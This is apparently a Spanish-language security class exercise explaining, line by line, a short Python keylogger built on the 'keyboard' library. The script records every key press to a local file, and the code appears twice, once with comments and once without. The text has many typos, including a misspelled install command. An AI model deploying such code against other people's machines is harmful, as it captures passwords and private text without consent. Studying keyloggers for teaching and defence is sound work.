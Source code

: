 # SI_T5_P1
import keyboard

El impor keyboard es para añadir la libreria de keyboard la cual hemos instalado previamente con el sigueitne comando:

pip install keyboar.

Luego creamos una función a la que llamaremos imprime\_tecla, y añadimos una variable llamada tecla.

def imprime\_tecla(tecla):

Cada vez que se pulse una tecla pondra su nombre, por ejemplo si presionamos la a sladra 'a' si presionamos la tecla espacio saldra 'space'.

print(tecla.name)

Para guardar todas las teclas presionadas pondremos la siguiente linea

 Abrir el archivo en modo 'a' para agregar el texto al final

with open('texto.txt', 'a') as file:

abre el archivo texto.txt y la 'a' es para que cada vez que se añade un texto no borre lo que ya haya


if tecla.name == 'space':

Lo que nos permite hacer esto es que si la tecla pulsada es el espacio  en vez de poner 'space' deje un espacio

file.write(' ')

else:

sino que ponga el nombre de la tecla

file.write(tecla.name)


keyboard.on\_press(imprime\_tecla)

Este comando nos permite que la funcion quede registrada cada vez que se pulse una tecla.

Nos manitene el programa abierto esperandoa a la entrada del teclado

keyboard.wait()

El codigo sin comentarios quedaría así:

import keyboard

def imprime\_tecla(tecla):

print(tecla.name)

with open('texto.txt', 'a') as file:

if tecla.name == 'space':

file.write(' ')

else:

file.write(tecla.name)

keyboard.on\_press(imprime\_tecla)

keyboard.wait()
